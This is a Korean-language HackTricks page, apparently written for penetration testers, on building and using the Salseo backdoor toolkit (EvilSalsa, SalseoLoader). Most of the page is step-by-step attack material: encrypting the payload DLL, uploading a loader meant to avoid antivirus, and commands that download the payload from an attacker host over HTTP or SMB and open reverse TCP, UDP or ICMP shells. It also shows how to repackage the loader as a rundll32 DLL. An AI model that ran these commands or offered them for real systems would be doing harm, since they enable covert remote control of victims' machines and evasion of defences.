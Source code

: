# Salseo

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## 바이너리 컴파일

github에서 소스 코드를 다운로드하고 **EvilSalsa**와 **SalseoLoader**를 컴파일합니다. 코드를 컴파일하려면 **Visual Studio**가 설치되어 있어야 합니다.

사용할 윈도우 박스의 아키텍처에 맞게 프로젝트를 컴파일합니다(윈도우가 x64를 지원하면 해당 아키텍처로 컴파일합니다).

**Visual Studio**의 **왼쪽 "Build" 탭**에서 **"Platform Target"**을 통해 **아키텍처를 선택**할 수 있습니다.

(\*\*이 옵션을 찾을 수 없으면 **"Project Tab"**을 클릭한 다음 **"\<Project Name> Properties"**를 클릭하세요)

![](<../.gitbook/assets/image (839).png>)

그런 다음 두 프로젝트를 빌드합니다 (Build -> Build Solution) (로그 안에 실행 파일의 경로가 나타납니다):

![](<../.gitbook/assets/image (381).png>)

## 백도어 준비

우선, **EvilSalsa.dll**을 인코딩해야 합니다. 이를 위해 **encrypterassembly.py**라는 파이썬 스크립트를 사용하거나 **EncrypterAssembly** 프로젝트를 컴파일할 수 있습니다.

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### 윈도우
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
알겠습니다. 이제 모든 Salseo 작업을 실행하는 데 필요한 모든 것이 있습니다: **인코딩된 EvilDalsa.dll**과 **SalseoLoader의 바이너리.**

**SalseoLoader.exe 바이너리를 머신에 업로드하세요. 어떤 AV에도 탐지되지 않아야 합니다...**

## **백도어 실행**

### **TCP 리버스 셸 얻기 (HTTP를 통해 인코딩된 dll 다운로드)**

nc를 리버스 셸 리스너로 시작하고 인코딩된 evilsalsa를 제공할 HTTP 서버를 시작하는 것을 잊지 마세요.
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **UDP 리버스 셸 얻기 (SMB를 통한 인코딩된 dll 다운로드)**

리버스 셸 리스너로 nc를 시작하고, 인코딩된 evilsalsa를 제공하기 위해 SMB 서버를 시작하는 것을 잊지 마세요 (impacket-smbserver).
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **ICMP 리버스 셸 얻기 (피해자 내부에 이미 인코딩된 dll)**

**이번에는 리버스 셸을 수신하기 위해 클라이언트에 특별한 도구가 필요합니다. 다운로드:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **ICMP 응답 비활성화:**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### 클라이언트 실행:
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### 피해자 내부에서, salseo 작업을 실행해 보겠습니다:
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## SalseoLoader를 DLL로 컴파일하여 메인 함수 내보내기

Visual Studio를 사용하여 SalseoLoader 프로젝트를 엽니다.

### 메인 함수 앞에 추가: \[DllExport]

![](<../.gitbook/assets/image (409).png>)

### 이 프로젝트에 DllExport 설치

#### **도구** --> **NuGet 패키지 관리자** --> **솔루션용 NuGet 패키지 관리...**

![](<../.gitbook/assets/image (881).png>)

#### **DllExport 패키지 검색 (탭에서 찾아보기 사용), 설치를 누르고 (팝업을 수락)**

![](<../.gitbook/assets/image (100).png>)

프로젝트 폴더에 **DllExport.bat** 및 **DllExport\_Configure.bat** 파일이 나타납니다.

### **U**ninstall DllExport

**Uninstall**을 누릅니다 (이상하게 들리지만 믿어주세요, 필요합니다)

![](<../.gitbook/assets/image (97).png>)

### **Visual Studio 종료 및 DllExport\_configure 실행**

그냥 **종료**합니다 Visual Studio

그런 다음, **SalseoLoader 폴더**로 가서 **DllExport\_Configure.bat**를 실행합니다.

**x64**를 선택합니다 (x64 박스 내에서 사용할 경우, 제 경우가 그랬습니다), **System.Runtime.InteropServices**를 선택합니다 ( **DllExport**의 **네임스페이스** 내에서) 그리고 **적용**을 누릅니다.

![](<../.gitbook/assets/image (882).png>)

### **Visual Studio로 프로젝트 다시 열기**

**\[DllExport]**는 더 이상 오류로 표시되지 않아야 합니다.

![](<../.gitbook/assets/image (670).png>)

### 솔루션 빌드

**출력 유형 = 클래스 라이브러리**를 선택합니다 (프로젝트 --> SalseoLoader 속성 --> 응용 프로그램 --> 출력 유형 = 클래스 라이브러리)

![](<../.gitbook/assets/image (847).png>)

**x64** **플랫폼**을 선택합니다 (프로젝트 --> SalseoLoader 속성 --> 빌드 --> 플랫폼 대상 = x64)

솔루션을 **빌드**하려면: 빌드 --> 솔루션 빌드 (출력 콘솔 내에 새 DLL의 경로가 나타납니다)

### 생성된 Dll 테스트

테스트할 위치에 Dll을 복사하고 붙여넣습니다.

실행:
```
rundll32.exe SalseoLoader.dll,main
```
오류가 나타나지 않으면, 아마도 기능하는 DLL이 있는 것입니다!!

## DLL을 사용하여 셸 얻기

**HTTP** **서버**를 사용하고 **nc** **리스너**를 설정하는 것을 잊지 마세요.

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
